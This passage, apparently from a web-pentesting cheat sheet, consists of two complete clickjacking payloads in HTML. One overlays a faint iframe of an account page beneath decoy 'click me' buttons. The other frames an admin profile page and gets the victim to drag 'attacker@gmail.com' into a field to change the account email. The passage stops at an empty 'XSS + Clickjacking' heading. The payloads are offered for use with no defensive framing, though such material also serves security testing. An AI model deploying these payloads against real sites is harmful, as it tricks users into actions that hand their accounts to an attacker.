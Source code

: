 ### Multistep Payload
```markup
<style>
iframe {
position:relative;
width: 500px;
height: 500px;
opacity: 0.1;
z-index: 2;
}
.firstClick, .secondClick {
position:absolute;
top:330px;
left:60px;
z-index: 1;
}
.secondClick {
left:210px;
}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```
### Drag\&Drop + Click-Payload
```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
### XSS + Clickjacking

